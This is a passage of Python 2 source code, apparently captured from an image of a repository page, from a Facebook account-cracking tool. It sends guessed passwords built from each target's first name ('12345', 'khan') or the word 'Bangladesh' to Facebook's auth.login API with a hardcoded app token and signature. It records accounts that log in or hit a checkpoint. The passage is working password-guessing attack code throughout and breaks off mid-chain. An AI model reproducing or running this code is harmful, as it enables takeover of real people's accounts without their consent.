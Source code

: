 			                else:

			                    if 'access_token' in k:

			                        print(G+'[OK] ♡ '+user+' ♡ '+ps3)

			                        oks.append(user+ps3)

			                    else:

			                        ps4=(j['first_name']+'12345')

			                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps4)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

			                        k=json.load(dt)

			                        if 'www.facebook.com' in k['error_msg']:

			                            print(S+'[CP] ♡ '+user+' ♡ '+ps4)

			                            cps.append(user+ps4)

			                        else:

			                            if 'access_token' in k:

			                                print(G+'[OK] ♡ '+user+' ♡ '+ps4)

			                                oks.append(user+ps4)

			                            else:

			                                ps5=('Bangladesh ')

			                                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps5)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

			                                k=json.load(dt)

			                                if 'www.facebook.com' in k['error_msg']:

			                                    print(S+'[CP] ♡ '+user+' ♡ '+ps5)

			                                    cps.append(user+ps5)

			                                else:

			                                    if 'access_token' in k:

			                                        print(G+'[OK] ♡ '+user+' ♡ '+ps5)

			                                        oks.append(user+ps5)

			                                    else:

			                                        ps6=(j['first_name']+'khan')

			                                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps6)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
